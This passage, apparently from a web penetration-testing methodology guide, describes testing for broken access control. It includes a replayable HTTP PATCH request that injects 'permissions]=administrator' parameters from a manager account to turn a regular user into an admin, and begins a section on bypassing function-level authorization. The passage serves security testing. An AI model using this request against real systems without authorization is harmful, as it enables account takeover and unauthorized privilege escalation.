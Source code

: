 {% step %}
First of all, log in to the admin account, make an edit request on a regular user to make it an admin, and use the Burp Suite tool to track the request. Store suspicious parameters that are used and sent in the request to convert a regular user to an admin in a field, for example, <sub>"\[permissions]=administrator</sub>"
{% endstep %}

{% step %}
The next step is to log in to the intermediate accounts (manager) and request an edit of a regular user in the Burp Suite tool, then add the parameters that were suspicious in the request to convert the regular user to an admin like this

```http
POST /hi/org-url-id/human_resources/user-id HTTP/2
Host: $WEBSITE
Cookie: []
X-Csrf-Token: []
...

_method=patch&
resource_instance[resource_type_id]=[]]&
resource_instance[account_membership_attributes][attach_user]=true&
resource_instance[account_membership_attributes][permissions]=administrator&
resource_instance[account_membership_attributes][add_own_time_off]=0&
resource_instance[account_membership_attributes][schedule]=view&
resource_instance[account_membership_attributes][booking_rights]=manage_own&
resource_instance[account_membership_attributes][downtime_rights]=manage_own&
resource_instance[account_membership_attributes][resource_rights]=manage_own&
resource_instance[account_membership_attributes][project_rights]=manage_own&
resource_instance[account_membership_attributes][client_rights]=manage_own&
resource_instance[account_membership_attributes][report_rights]=view&
resource_instance[account_membership_attributes][id]=386353

```
{% endstep %}

{% step %}
Send a request and check if the normal user has become an admin. If so, there is a vulnerability
{% endstep %}
{% endstepper %}

***

#### Bypass Broken Function Level Authorization

{% stepper %}
{% step %}
Note: Sometimes what we see on the front end may be completely different from what we see on the back end, like in this scenario Perform the registration process within the system with the lowest access level
{% endstep %}

{% step %}
Inside the user account, look for sections that are specific to the admin, such as sections like "Member Rule"
{% endstep %}
